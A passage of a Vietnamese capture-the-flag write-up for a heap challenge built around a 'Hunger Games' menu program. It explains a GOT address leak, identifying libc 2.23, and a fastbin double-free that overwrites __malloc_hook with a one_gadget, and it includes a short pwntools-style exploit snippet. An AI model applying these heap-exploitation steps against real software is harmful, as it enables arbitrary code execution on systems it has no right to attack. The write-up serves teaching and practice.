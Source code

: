                     abort(); // Shouldn't happen anyway
            }
        }
    }
Chương trình có 5 chức năng chính:
  <h4>
  
     Welcome to the Hunger Games management system.
     What would you like to do?
     [0] Draft a new tribute
     [1] Remove a tribute from the list (because someone volunteered in their place again, people should really stop doing that, it messes with our management system)
     [2] See an overview of the current tributes
     [3] Start the games, may the odds be ever in your favor!
     [4] Để leak 1 địa chỉ thông qua got.
     
0: Sẽ malloc cho ta 1 size cố định là 0x68.

1: Free theo index.

2: Hiển thị list ra màn hình.

3: Exit.

4: Leak địa chỉ.

Sau khi leak địa chỉ hàm free và search libc trên web: https://libc.blukat.me/ thì mình biết được libc là 2.23, và size được malloc nằm trong fastbin nên bài này mình sẽ dùng double free và fastbin attack để khai thác.
Mình sẽ malloc() 2 chunk rồi sau đó free xen kẽ nhau để bypass fasttop( cơ chế check của glibc), lúc này trong bin sẽ như sau: 0x70: 0x6033b0 —▸ 0x603340 ◂— 0x6033b0 giờ mình malloc 1 chunk thì chunk đó sẽ là 0x6033b0, vừa được sử dụng và vừa có trong bin nên khi ta thay đổi data của chunk này thì fd trong bin sẽ thay đổi theo.
Ý tưởng sẽ là thay đổi data của chunk đó sao cho fd trong bin trỏ đến __malloc_hook, rồi sau đó ta sẽ ghi đè địa one_gadget vào.

Đoạn exploit của mình sau khi leak được libc như sau:
  <h4>
  
    add(b'a')
    add(b'b')

    free(1)
    free(0)
    free(1)
    #bin: 1->0->1
    add(p64(malloc - 0x23))
    #bin: 0->1<-malloc_hook-0x23
    add("c")
    add("d")
    #bin: malloc_hook-0x23
    add("z"*0x13 + p64(one))
Lý do mình không ghi đè thẳng vào malloc_hook mà phải trừ 0x23 là do trước khi malloc 1 chunk ở fastbin nó sẽ có 1 đoạn check:
Kiểm tra xem kích thước của freechunk mình muốn malloc có nằm trong phạm vi kích thước của chuỗi fastbin hay không.
